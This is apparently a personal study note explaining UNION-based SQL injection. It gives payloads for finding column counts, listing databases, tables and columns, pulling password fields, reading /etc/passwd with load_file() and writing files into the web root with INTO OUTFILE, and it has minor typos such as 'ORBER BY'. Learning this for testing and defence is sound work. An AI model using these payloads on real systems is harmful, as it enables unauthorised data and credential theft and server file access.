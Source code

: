 ```yaml
---
tags:
- security
- sqli
- web
title: UNION based (In-band) Injection
---
```


They can be used to combine of output of two SELECT statements
This method only works if the number of columns in both the statements are the same

````sql
SELECT * FROM login 
UNION 
SELECT 1, 2, 3;
````

In place of numbers we can use SQL functions

````sql
SELECT * FROM login 
UNION 
SELECT database(), user(), version();
````

#### Finding Number of Columns

1. <u>Brute Force Approach</u>

We can try different number of columns till we find the result that works
union select 1# (Error)
union select 1,2# (Error)

2. <u>ORBER BY Clause</u>

We cause the query `ORBER BY 20#` and see if we get error if so there are less an 20 columns
Then we try 10. If no error which means there are either exactly 10 or more than 10 columns
No we can try values between 10 and 20 till be find the no. of columns

 > [!NOTE]
 > Not all columns from the DB are going to be present in output. Only the fields that are fetched from the DB can be used for fetching information

#### Finding Tables Names and Column Values

1. <u>View DB Names</u>

The "schema_name" column consist of the DB names

````sql
SELECT schema_name 
FROM information_schema.schemata;
````

So we can used "schema_name" to find all the DB

````sql
UNION
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), schema_name, version() 
FROM information_schema.schemata;#
````

2. <u>View Table Names in DB</u>

The "table_name" column consist of the table name

````sql
SELECT table_name 
FROM information_schema.tables 
WHERE table_schema="<db-name>";
````

Now we can view all the tables in the DB using the following

````sql
UNION
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), table_name, version() 
FROM information_schema.tables 
WHERE table_schema="<db-name>";#
````

The `group_concat()` function will show all the results as an single string

````sql
UNION 
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), group_concat(table_name), version() 
FROM information_schema.tables 
WHERE table_schema="<db-name>";#
````

3. <u>Table Column Names</u>

The "column_name" filed consist of the column names of the table

````sql
SELECT column_name 
FROM information_schema.columns 
WHERE table_name='<table-name>';
````

The columns of the table can be viewed as follows

````sql
UNION 
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), column_name, version() 
FROM information_schema.columns 
WHERE table_name='<table-name>';#
````

4. <u>View Data from Columns</u>

````sql
UNION 
SELECT 1, 2, 3, 4, 5, 6, id, 8, password, column_name, version 
FROM <table-name>;#
````

#### Reading and Writing Files to Server

1. <u>Reading Data from File</u>

Load File can be used to load files on Server

````sql
UNION 
SELECT 1, load_file('/etc/passwd'), null, null;#
````

2. <u>Writing Data to File</u>

Outfile command can be used to write data to a file on the server

````sql
UNION 
SELECT null, 'example text', null, null INTO OUTFILE '/var/www/example.txt';#
````

For reading and writing to the server we need to have the right permissions so only works if the permissions are miss configured